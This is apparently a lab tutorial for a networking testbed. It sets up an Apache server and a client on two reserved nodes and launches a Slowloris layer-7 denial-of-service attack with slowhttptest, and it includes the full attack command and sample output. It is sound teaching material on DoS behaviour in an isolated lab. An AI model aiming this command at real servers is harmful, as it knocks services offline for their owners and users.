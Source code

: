 ## Run my experiment

Create a topology with two nodes connected by a link, like this:

![](/blog/content/images/2016/03/slowloris.png)

and use the Auto IP tool to assign IP addresses. Reserve these resources on an InstaGENI aggregate.

When your nodes are ready to log in, SSH into the server node and run 

```
sudo apt-get update
sudo apt-get -y install lynx-cur apache2
```

to install the Apache web server (and Lynx, a text-based web browser for use in terminal sessions). Verify that the web server is running by connecting to it from a browser; run

```
lynx http://server
```

on the server node and you should see the Apache2 Ubuntu Default Page.


In a second terminal, SSH into the client node and run

```
sudo apt-get update
sudo apt-get -y install slowhttptest
```

to install the [slowhttptest](https://github.com/shekyan/slowhttptest/wiki) tool. This tool implements several Layer 7 DoS attacks, including slowloris.

Then, on the client, run

```
slowhttptest -c 1000 -H -g -o apache_no_mitigation -i 10 -r 200 -t GET -u http://server -x 24 -p 3 -l 120
```

In the terminal output, you will see the test parameters, e.g.

```
test type:                        SLOW HEADERS
number of connections:            1000
URL:                              http://server/
verb:                             GET
Content-Length header value:      4096
follow up data max size:          52
interval between follow up data:  10 seconds
connections per seconds:          200
probe connection timeout:         3 seconds
test duration:                    120 seconds
using proxy:                      no proxy 
```
